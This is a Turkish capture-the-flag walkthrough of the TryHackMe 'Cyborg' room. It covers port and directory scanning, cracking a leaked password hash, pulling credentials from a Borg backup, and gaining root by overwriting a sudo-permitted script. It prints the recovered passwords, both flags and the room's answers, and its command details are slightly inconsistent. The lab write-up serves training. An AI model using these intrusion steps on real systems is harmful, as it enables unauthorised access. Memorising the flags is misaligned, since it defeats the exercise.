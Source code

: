```yaml
---
title: Cyborg
date: 2024-03-27 13:04:12 
categories: [TryHackMe]
tags: [Easy,Pentest,Encryption]
image: images/cyborg.jpg
---
```



Compromise the machine and read the user.txt and root.txt

 <a href="https://tryhackme.com/room/cyborgt8">Cyborg</a> 

---

# Görev 1 Compromise the System 

Her zamanki gibi nmap taramasıyla başlıyoruz.

>nmap -A -T5 -sV -p- $ip

nmap çıktısı şu şekilde:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1.
Makineyi tarayın. Kaç port açık?
>Cevap:2

2.
22 portunda hangi servis çalışıyor?
>Cevap:ssh

3.
80 portunda hangi servis çalışıyor?
>Cevap:http

4.
user.txt bayrağını bulunuz.

Hedefin websitesine gidelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a1.png?raw=true)

Karşımıza Apache2 Ubuntu Default Page geldi. Bu sayfadan bişey çıkaramayız.

Gizli dizinleri görmek için gobuster çalıştıralım.

>gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.218.26
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/27 16:14:52 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.218.26/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.218.26/etc/]
Progress: 220326 / 220561 (99.89%)
===============================================================
2023/03/27 16:27:14 Finished
===============================================================
```

Gobuster çıktısı bu şekilde. admin ve etc dizinini inceleyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a2.png?raw=true)

Buradaki kullanıcı isimlerini not edelim: Josh, Adam ve Alex. İleride işimize yarayabilirler. Başka neler işimize yarayabilir? Alex, mesajında bazı işleri mahvettiğini söylüyor. Web sitesini daha güvenli hale getirmek için ne yapacağını bilmediği için beklemeye karar vermiş ve yapılandırma dosyalarının herkesin erişebildiğinden bahsediyor. Ayrıca, “music_archive” adlı bir arşivinden bahsediyor.

Yani, web sitesi pek güvenli değil. Yapılandırma dosyasına erişebiliriz ve “music_archive” adlı arşivi de onun için önemli görünüyor.

Web sitesini keşfetmeye devam edelim.

“Archive-Download” kısmında bize “archive.tar” dosyasını indiriyor.

Dosyayı incelemeden once /etc alt dizin adresimizide bir ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a3.png?raw=true)

passwd dosyasıni indirelim ve inceleyelim.

>music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

music_archive’in hashi elimizde. Bu hashi hashcat ile kırabiliriz.

Hash'i bir txt dosyasına kaydedelim.

>echo 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > unshadowed.txt

john the ripper kullanarak hash'i kırıyoruz.

>hashcat -m 1600 -a 0 hash.txt /path/to/file/rockyou.txt

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a4.png?raw=true)

>squidward

music_archive dosyasının şifresini biliyoruz. Diğer dosyaya geçelim.

archive.tar dosyasını çıkartalım.

>tar -xvf archive.tar

README.md dosyasını dikkatimi çekti ve dosyayı açtım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a5.png?raw=true)

Bu dosyaların bir Borg yedekleme deposu olduğunu söylüyor.

Burada Borg’u araştırmamız gerekiyor. Verdiği link aslında oldukça yardımcı oluyor.

Borg’un ne olduğunu anlamanız ve nasıl kullanıldığını öğrenmeniz gerekiyor.

https://borgbackup.readthedocs.io/

Verdigi sitede Quick Start kısmında nasıl kullanılacağı anlatılmış.

Borg'u kuralım.
>sudo apt-get install borg



```
borg list home/field/dev/final_archive

──(kali㉿kali)-[~/Downloads]
└─$ borg list home/field/dev/final_archive 
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                Tue, 2020-12-29 17:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Bu komutu çalıştırınca yukarıda bulduğumuz şifreyi girdim ve başarılı oldum.

Güzel, “music_archive” dosyasını bulduk. Şimdi, içerisinde neler olduğuna bakalım.

Aşağıdaki komut ile “music_archive” içeriğini listeleyebiliriz

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a6.png?raw=true)

İçeriğinin sonunda “secret.txt” ve “note.txt” dikkatimi çekti. Bu dosyaları incelemek için “music_archive” dosyasını çıkartalım

>borg extract home/field/dev/final_archive::music_archive

home içerisine alex adlı dosya çıkartıldı. Bu notlara bakalım.

>cat home/alex/Documents/note.txt

note.txt dosyasını açtığımızda kullanıcı adı ve şifreyi buluyoruz.
>alex:S3cretP@s3

Bulduğumuz kullanıcı adı ve şifreyle ssh servisine girelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a7.png?raw=true)

Makineye giriş yapmayı başardık. user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a8.png?raw=true)

```
user_flag:flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
Geriye root bayrağını almak kaldı. Yetki yükseltme işlemi yaparak roota erişmeye çalışalım.

>sudo -l
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a9.png?raw=true)


/etc/mp3backups/backup.sh dosyasını çalıştırabiliyoruz. Kontrol edelim ve değiştirmeye çalışalım.

> chmod 777 /etc/mp3backups/backup.sh //backup.sh dosyasının izinlerini değiştiriyoruz.

> echo "bin/bash" > /etc/mp3backups/backup.sh //backup.sh dosyasına /bin/bash komutunu ekliyoruz.

> sudo /etc/mp3backups/backup.sh // dosyayı çalıştırıyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a10.png?raw=true)

Artık root olduğumuza göre root bayrağını alabiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a11.png?raw=true)

```
root_flag:flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

Ve böylelikle bir ctf daha tamamladık gelecek yazılarımda görüşmek üzere.

![fsoc](/images/fsoc.gif)
